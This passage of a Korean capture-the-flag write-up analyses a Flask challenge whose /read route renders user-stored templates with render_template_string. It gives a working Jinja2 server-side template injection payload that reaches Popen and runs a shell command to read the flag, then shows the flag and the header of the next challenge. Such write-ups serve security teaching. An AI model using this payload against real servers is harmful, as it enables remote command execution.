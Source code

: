 소스코드를 확인해보면 `render_template_string` 함수을 이용해 read하기 때문이다. 이는 SSTI(Server Side Template Injection) 취약점으로 이루어질 수 있는데, SSTI는 공격자가 Template 코드를 기존 template에 include 시켜서 원하는 액션을 수행하도록 하는 공격이다. 이 취약점으로 RCE(Retmoe Code Execution) 연결될 수 있다.

```python
@app.route('/read')
def read():
	try:
		username = session['username']
		conn = sqlite3.connect('users.db')
		c = conn.cursor()
		c.execute('SELECT * FROM document WHERE creator=?', (username,))
		rows = c.fetchall()
		c.execute('SELECT content FROM template WHERE creator=?', (username,))
		template = c.fetchone()[0]
		conn.close()
		return render_template_string(template, rows=rows)
	except:
		return redirect(url_for('index'))
```

SSTI 취약점은 [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) 를 확인해서 Exploit을 하면 된다.

Exploit 방법

1. `{{''.__class__.__mro__[1].__subclasses__()}}` 에서 Popen 클래스를 찾습니다.

2. 410번째에 Popen이 있으므로 Popen(’cat flag’,shell=True,stdout=-1).communicate()[0]을 실행시켜줍시다.

3. 최종 페이로드는 `{{''.__class__.__mro__[1].__subclasses__()[410]('cat flag',shell=True,stdout=-1).communicate()[0]}}` 이다.

Modify에 다음과 같은 페이로드를 넣고 Read해서 플래그를 읽으면 된다.

![스크린샷 2023-01-30 오전 1.33.21.png](img%20e0061c49e68b4dbc8047ca5b2c52fabc/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2023-01-30_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%258C%25E1%2585%25A5%25E1%2586%25AB_1.33.21.png)

flag : `flag{well_KN0wn_FLASK&JINJA2_D3velOp!}`

## dHd(HARD) - 1 Solves

```
FFRRRRRRRRRRRRRRRR-SS!!

http://ssuctf.kr:8889/
```
